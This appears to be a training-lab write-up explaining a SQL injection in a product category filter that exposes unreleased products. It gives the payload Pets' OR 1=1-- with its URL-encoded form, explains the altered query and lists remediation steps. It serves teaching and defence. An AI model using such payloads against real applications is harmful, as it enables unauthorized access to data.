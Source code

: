 ## 🔍 Lab: SQL Injection Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data

**Objective**: Perform a SQL injection to view unreleased products from the product list.

---

### 📝 Description

This lab demonstrates a **SQL injection vulnerability** in the product category filter. The application uses the following SQL query to return products based on category and release status:

```sql
SELECT * FROM products WHERE category = 'Pets' AND released = 1
```

By injecting a malicious payload into the `category` parameter, we can bypass the `released = 1` filter and retrieve **unreleased (hidden) products**.

---

### 💥 Injection Payload Used

```sql
Pets' OR 1=1--
```

URL-encoded form (what we actually use in the browser):

```
category=Pets%27+OR+1=1--
```

This modifies the query to:

```sql
SELECT * FROM products WHERE category = 'Pets' OR 1=1--' AND released = 1
```

The `OR 1=1` condition always evaluates to `TRUE`, and the `--` comment sequence disables the remaining clause, allowing **all products (including unreleased ones)** to be displayed.

---

### 📸 Screenshots

#### 🔹 Initial Web Page

![Web Home Page](images/web_home_page_screenshot.png)

#### 🔹 Result After SQL Injection

![SQL Injection Result](images/SQL%20Injection%201.png)

---

### ✅ Outcome

- Unreleased products were displayed successfully.
- The lab was marked as **Solved**.

---

### 🛡️ Remediation

To prevent SQL injection:

- Use **parameterized queries (prepared statements)**.
- Sanitize and validate user input.
- Disable detailed SQL error messages in production environments.
